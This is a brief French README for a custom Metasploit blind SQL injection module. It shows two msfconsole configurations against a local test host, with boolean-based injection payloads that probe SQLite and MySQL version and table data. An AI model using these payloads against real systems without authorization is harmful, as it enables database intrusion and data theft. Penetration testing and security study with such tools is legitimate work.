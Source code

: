 # INSTALLATION
Le répertoire modules est à déposer dans ~/.msf4

# USAGE

## modules/auxiliary/sqli/blind_sqli.rb

```
set rhosts test.local
set vhost test.local
set rport 80
set method POST
set pattern no such user
set bool_pattern true
set database sqlite
set param username
set other_post_data password=ok
set inj_to_get_true "ok' or (select case when TRUE then 'ok' else (select 1 from users) end) or 'ok"
set targeturi /uri/
set injection sqlite_version()
check
run
```

```
set rhosts test.local
set vhost test.local
set rport 80
set pattern authent ok
set bool_pattern true
set method GET
set targeturi /?action=list
set param order
set database mysql
set inj_to_get_true ", (select case when TRUE then 1 else ascii((select table_name from information_schema.tables))end)"
set injection version()
check
run
```
